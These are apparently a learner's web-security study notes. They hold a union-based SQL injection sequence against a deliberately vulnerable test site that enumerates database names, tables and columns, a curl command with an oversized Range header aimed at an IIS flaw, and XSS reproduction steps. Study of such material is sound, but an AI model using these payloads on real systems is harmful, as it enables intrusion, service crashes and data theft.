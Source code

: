


study notes:

https://www.synopsys.com/content/dam/synopsys/sig-assets/whitepapers/exploiting-the-java-deserialization-vulnerability.pdf
https://www.youtube.com/watch?v=r4liwEQm14o  --RCE demonstration
https://www.troyhunt.com/owasp-top-10-for-net-developers-part-6/
https://stackoverflow.com/questions/10314174/difference-between-pragma-and-cache-control-headers
https://ma.ttias.be/remote-code-execution-via-http-request-in-iis-on-windows/
   curl -v 10.0.1.1/ -H "Host: irrelevant" -H "Range: bytes=0-18446744073709551615"  -buffer overflow command

http://projects.webappsec.org/w/page/13246949/Null%20Byte%20Injection


http://testphp.vulnweb.com/artists.php?artist=1'
/artists.php?artist=-1 order by 1
/artists.php?artist=-1 union select 1,2,3
/artists.php?artist=-1 union select 1,database(),3
/artists.php?artist=-1 union select 1,version(),current_user()
/artists.php?artist=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()
/artists.php?artist=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'
/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 0,1
/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 1,1




XSS using referrer header   Parameter: Referer
Description:
1. Navigate to http://wsec.us/?'*prompt()*'whscheck
2. Go into your browser’s Developer Tools and open your Web Console
3. Execute the following command:
document.write(“<a/href=\”https://xyz.com”>click</a>”);
4. Click on newly created link
5. Authenticate to applicaton
6. Observe JavaScript popup
